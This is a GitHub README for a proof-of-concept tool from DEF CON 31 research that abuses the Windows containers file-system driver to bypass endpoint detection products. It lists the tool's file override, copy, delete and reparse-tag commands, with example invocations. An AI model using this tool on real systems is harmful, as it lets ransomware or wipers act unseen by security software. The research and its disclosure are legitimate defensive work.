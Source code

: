 # ContainYourself
A POC of the ContainYourself research presented in DEF CON 31, which abuses the Windows containers framework to bypass EDRs.

## Installation
Make sure to clone the repository and its submodules:

    git clone --recursive git@github.com:deepinstinct/ContainYourself.git

## Usage

    Usage: ContainYourselfPoc.exe [--command]
    
    Valid commands:
            --set-reparse [override|link] - Set wcifs reparse tag
            --remove-reparse [override|link] - Remove wcifs reparse tag
            --override-file - override a file using wcifs
            --copy-file - Copy a file using wcifs
            --delete-file - Delete a file using wcifs
            --create-process - Create process from an image file path using NtCreateUserProcess
    Commands arguments:
            --source-file  - operation full source file (relative to volume only when using with [--copy-file])
            --target-file  - operation target file (relative to volume)
            --source-volume  - operation source volume, without a trailing backslash (default is C:)
            --target-volume  - operation target volume, without a trailing backslash (default is C:)
    
    Examples:
            ContainYourselfPoc.exe --set-reparse override --source-file C:\temp\calc.exe --target-file \temp\malware.exe
            ContainYourselfPoc.exe --remove-reparse --source-file C:\temp\calc.exe
            ContainYourselfPoc.exe --override-file --source-file C:\temp\calc.exe
            ContainYourselfPoc.exe --copy-file --source-file temp\document.docx --target-file Documents\document.docx --target-volume E:
            ContainYourselfPoc.exe --delete-file --source-file C:\temp\document.docx

## Disclaimer

Every security product has the capability to incorporate its unique algorithm designed to counter ransomware and wiper threats. It cannot be guaranteed that this proof-of-concept will successfully circumvent every existing protection solution available.


